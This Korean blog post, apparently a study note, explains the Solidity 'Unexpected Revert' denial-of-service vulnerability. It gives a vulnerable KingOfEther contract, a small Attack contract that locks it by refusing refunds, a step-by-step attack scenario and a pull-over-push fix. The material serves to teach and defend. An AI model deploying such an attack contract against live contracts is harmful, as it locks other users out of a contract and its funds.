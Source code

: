 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 6) DOS Unexpected Revert
date: '2021-12-29 11:29:00'
author: 한성원
tags: DOS Unexpected Revert UnexpectedRevert 취약점 SmartContract
categories: 취약점분석
---
```



# 👋 Unexpected Revert

## Unexpected Revert란?
Unexpected Revert는 이름에서 알 수 있듯이, 트랜잭션을 고의적 revert시킴으로써 스마트 계약이 작동되지 않는 상태로 만드는 취약성입니다.

- - -

## Example code

```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}

```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/denial-of-service/</span> 

시나리오는 이렇다.
1. KingOfEther of Ether Contract가 배포된다.
2. 처음으로 A가 1 Ether를 claimThrone()에 보냄으로써 King이 된다.
2. 다음으로 B가 2 Ether를 claimThrone()에 보냄으로써 B가 King으로 바뀐다. King이 바뀌기 전에 A에게 1 Ether를 refund 해준다.
3. C가 KingOfEther의 주소와 함께 Attack contract를 배포한다.
4. C는 Attack.attack을 3 Ether와 함꼐 호출한다. 
5. C는 C는 king이 되고 Attack contract는 ether를 받을 수 없기 때문에 다른 누구도 king이 될 수 없게 된다. 즉 KingOfEhter은 무의미한 contract가 된다.

EVM이 externally owned accounts와 contract accounts를 구분하지 않는다는 점을 악용한 것 같아보인다. 

- - -

## How to prevent?
#### __pull over push__
pull over push를 통해 문제를 해결 할 수 있다. pull over push는 contract를 분리함으로써 attacker의 공격을 attacker의 손실로만 처리 할 수 있다. 위의 코드를 pull over push로 바꾸어보았다.

```solidity
contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

이 코드는 Example 코드의 claimThrone() function이 2개의 function으로 나누어 진 것을 볼 수 있다. 위 코드의 claimThrone()는 king을 바꾸는 용도로만 사용된다. 그리고 king에서 쫒겨난 사람들은 withdraw 함수를 통해 ether를 다시 가져올 수 있다.

```
## 마무리
취약점들에 대해서 공부하면서 나는 EVM에 대해서 알아가야 할 부분이 많다는 생각이 든다. ~~잘안다고 생각했는데ㅋㅋ~~ 갈 길이 멀다!! 꾸준히 공부하자:)


```toc

```